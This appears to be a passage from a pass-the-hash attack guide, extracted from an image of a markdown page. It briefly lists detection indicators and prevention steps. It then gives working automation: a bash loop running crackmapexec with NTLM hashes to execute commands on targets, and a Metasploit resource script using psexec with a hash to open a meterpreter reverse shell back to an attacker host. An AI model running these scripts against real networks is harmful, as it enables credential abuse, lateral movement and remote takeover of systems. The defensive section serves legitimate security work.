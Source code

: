 ## Detection and Mitigation

### PtH Attack Indicators

- **SMB Authentication** without preceding Kerberos
- **NTLM Authentication** from unexpected sources
- **Multiple failed** followed by successful NTLM auth
- **Unusual service** creation (PSExec, WMI)

### Prevention Strategies

```bash
# Enable NTLM auditing
# Implement Credential Guard (Windows 10+)
# Use LAPS (Local Administrator Password Solution)
# Restrict WMI and DCOM access
# Monitor for PsExec-like tools
```

## Automation Scripts

### Bulk PtH Testing

```bash
#!/bin/bash
# pth_bulk_tester.sh
TARGET_FILE="targets.txt"
HASH_FILE="hashes.txt"

echo "[*] Starting bulk PtH testing"

while IFS=: read -r target user hash; do
    echo "[*] Testing $target with $user"
    crackmapexec smb $target -u $user -H $hash -x "hostname" | grep -v "ERROR"
done < <(paste -d: $TARGET_FILE $HASH_FILE)

echo "[*] Bulk testing complete"
```

### Metasploit Automation

```ruby
# pth_automation.rc
use exploit/windows/smb/psexec
set RHOSTS 192.168.1.100
set SMBUser Administrator
set SMBPass AAD3B435B51404EEAAD3B435B51404EE:32ED87BDB5FDC5E9CBA88547376818D4
set payload windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.1.50
set LPORT 4444
exploit
```
